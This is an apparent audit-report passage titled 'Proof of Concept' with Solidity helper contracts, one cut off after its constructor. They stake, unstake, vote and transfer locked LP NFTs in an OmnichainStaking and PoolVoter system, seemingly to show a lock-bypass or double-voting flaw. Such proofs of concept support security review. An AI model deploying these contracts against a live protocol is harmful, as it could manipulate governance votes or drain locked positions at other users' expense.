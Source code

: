         
## Proof of concept
## Proof of Concept
### X contract
```solidity
import {ILocker} from "../contracts/interfaces/ILocker.sol";
import {OmnichainStaking} from "../contracts/locker/OmnichainStaking.sol";
import {PoolVoter} from "../contracts/voter/PoolVoter.sol";

contract X {
    ILocker public lpLocker;
    OmnichainStaking public staking;
    PoolVoter public poolVoter;

    constructor(address _lpLocker, address _staking, address _poolVoter){
        lpLocker  = ILocker(_lpLocker);
        staking   = OmnichainStaking(_staking);
        poolVoter = PoolVoter(_poolVoter);
    }

    function onERC721Received(
        address,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        //lpLocker.safeTransferFrom(address(this), lpLocker, tokenId);

        return this.onERC721Received.selector;
    }

    // Unstake from omnichain staking
    function unstakeLP(uint256 tokenId) external { 
        staking.unstakeLP(tokenId);
    }
    // This allows me to send anywhere I want
    function send(address to, uint256 tokenId) external {
        lpLocker.safeTransferFrom(address(this), to, tokenId);
    }

    function vote(address[] calldata _poolVote,uint256[] calldata _weights) external {
        poolVoter.vote(_poolVote, _weights);
    }
}
```
### Y contract
```solidity
import {ILocker} from "../contracts/interfaces/ILocker.sol";
import {OmnichainStaking} from "../contracts/locker/OmnichainStaking.sol";
import {PoolVoter} from "../contracts/voter/PoolVoter.sol";

contract Y {
    ILocker public lpLocker;
    OmnichainStaking public staking;
    PoolVoter public poolVoter;

    constructor(address _lpLocker, address _staking, address _poolVoter){
        lpLocker  = ILocker(_lpLocker);
        staking   = OmnichainStaking(_staking);
        poolVoter = PoolVoter(_poolVoter);
    }
```